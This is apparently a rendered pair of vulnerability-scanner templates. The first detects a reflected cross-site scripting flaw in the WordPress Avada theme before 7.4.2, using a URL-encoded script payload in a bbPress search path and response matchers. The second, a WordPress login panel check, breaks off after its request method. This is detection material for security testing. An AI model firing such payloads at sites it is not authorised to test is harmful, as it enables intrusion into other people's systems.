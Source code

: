 
# WordPress Avada Website Builder \<7.4.2 - Cross-Site Scripting

## Description

- WordPress Avada Website Builder prior to 7.4.2 contains a cross-site scripting vulnerability. The theme does not properly escape bbPress searches before outputting them back as breadcrumbs.
- severity - high
- tags - xss,wp,wordpress,wp-theme,avada,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/forums/search/z-->%22%3e%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E/

### Matchers

**Type - word**

- part - body
- words
  1. ">\</script>\<script>alert(document.domain)\</script>
  2. avada-footer-scripts
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Login Panel

- severity - info
- tags - panel,wordpress

## Requests

- Method - GET
